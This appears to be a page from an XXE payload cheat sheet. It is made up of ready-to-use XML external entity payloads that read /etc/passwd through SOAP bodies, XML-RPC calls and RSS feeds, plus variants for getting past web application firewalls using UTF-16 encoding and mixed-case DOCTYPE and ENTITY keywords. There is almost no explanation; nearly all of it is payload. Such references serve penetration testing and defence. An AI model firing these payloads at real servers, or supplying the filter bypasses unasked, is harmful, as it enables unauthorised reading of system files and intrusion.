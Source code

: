 ## XXE in Different Contexts

### XXE via SOAP Request
```xml
<soap:Body>
    <foo>
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <bar>&xxe;</bar>
    </foo>
</soap:Body>
```

### XXE via XML-RPC
```xml
<?xml version="1.0"?>
<!DOCTYPE methodCall [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<methodCall>
  <methodName>test</methodName>
  <params>
    <param>
      <value>&xxe;</value>
    </param>
  </params>
</methodCall>
```

### XXE via RSS/Atom Feeds
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE rss [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<rss version="2.0">
  <channel>
    <title>&xxe;</title>
  </channel>
</rss>
```

## Bypassing WAF and Filters

### Using UTF-16 Encoding
```xml
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Case Variation
```xml
<!DoCtYpE foo [ <!EnTiTy xxe SYSTEM "file:///etc/passwd"> ]>
```
